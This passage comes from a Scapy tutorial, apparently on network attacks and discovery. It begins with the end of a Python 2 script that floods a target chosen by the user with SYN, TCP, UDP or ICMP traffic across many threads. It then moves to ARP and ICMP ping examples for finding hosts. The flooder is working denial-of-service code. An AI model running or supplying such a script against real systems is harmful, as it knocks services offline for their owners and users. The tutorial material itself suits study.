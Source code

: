 ```python
    send(ip/icmp, verbose=0)

def option(count, op, ip, port):
    if op == '1':
        for i in range(count):
            threading.Thread(target=synFlood(ip, port)).start()

    elif op == '2':
        for i in range(count):
            threading.Thread(target=tcpFlood(ip, port)).start()

    elif op == '3':
        for i in range(count):
            threading.Thread(target=udpFlood(ip, port)).start()

    elif op == '4':
        for i in range(count):
            threading.Thread(target=icmpFlood(ip)).start()

    else:
        print "Option not valid."
        sys.exit()

def getIP(domainName):
    return socket.gethostbyname(domainName)

if __name__ == '__main__':
    domainName = raw_input('Type the domain name: ')
    port = raw_input('Type the port: ')
    op = raw_input("Select the flood attack type: 1) syn, 2) tcp, 3)udp, 4) icmp ")
    count = raw_input("Select the count: ")
    ip = getIP(domainName)
    option(int(count), op, ip, port)
```

### Pinging the Network

We can perform  **ping** operations with several protocols using Scapy. The fastest way to discover hosts on a local Ethernet network is to use ARP:

```python
def arp_ping(host):
    ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=host), timeout=2)
    ans.summary(lambda (s, r): r.sprintf("%Ether.src% %ARP.psrc%"))
```

In other cases we can use ICMP ping:

```python
def icmp_ping(host):
    ans, unans = sr(IP(dst=host)/ICMP())
    ans.summary(lambda (s, r): r.sprintf("%IP.src% is alive"))
```
